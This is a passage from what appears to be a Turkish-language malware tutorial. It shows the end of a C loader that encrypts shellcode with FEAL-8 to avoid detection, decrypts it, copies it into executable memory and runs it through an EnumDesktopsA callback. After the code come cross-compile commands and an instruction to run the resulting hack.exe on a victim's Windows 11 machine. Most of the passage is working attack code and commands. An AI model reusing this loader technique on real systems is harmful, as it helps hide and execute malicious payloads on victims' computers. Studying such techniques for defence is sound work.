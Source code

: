 ```cpp
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  feal8_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  feal8_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

Bu örnek, `FEAL-8` şifreleme algoritmasının payload'u şifrelemek ve şifresini çözmek için nasıl kullanılacağını göstermektedir. Doğruluğu kontrol etmek için eklenen yazdırma mantığı bulunmaktadır.     

### demo

Şimdi her şeyi çalışırken görelim. Derleyelim (`linux` makinemde):      

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

![cryptography](./images/133/2024-09-12_18-04.png){width="80%"}      

Ardından, sadece mağdurun makinesinde (benim durumumda `Windows 11 x64`) çalıştırın:    

```powershell
.\hack.exe
```
